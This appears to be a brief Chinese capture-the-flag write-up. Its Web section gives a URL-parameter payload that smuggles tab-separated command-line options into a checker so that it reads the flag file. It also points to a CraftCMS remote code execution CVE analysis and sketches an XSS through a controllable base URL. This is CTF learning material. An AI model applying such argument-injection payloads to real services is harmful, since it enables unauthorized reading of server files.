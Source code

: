## Web
### MyGO's Live!!!!!

```shell
checker?url=%09-iL%09/flag-d5b6d51594b888dd%09-o%09/dev/stdout
```

### craftcms
P神的知识星球有提到过

[CVE-2023-41892 CraftCMS远程代码执行漏洞分析 | Bmth's blog (bmth666.cn)](http://www.bmth666.cn/2023/09/26/CVE-2023-41892-CraftCMS%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)

### 
`new URL()`的部分可以通过theme来控制base的url值，从而实现XSS

![](attachments/Pasted%20image%2020231103141242.png)

![](attachments/Pasted%20image%2020231103141715.png)
## Misc
### SIGNIN: 东方原神大学
被做了重定向，wget一下就行了

![](attachments/Pasted%20image%2020231103085217.png)
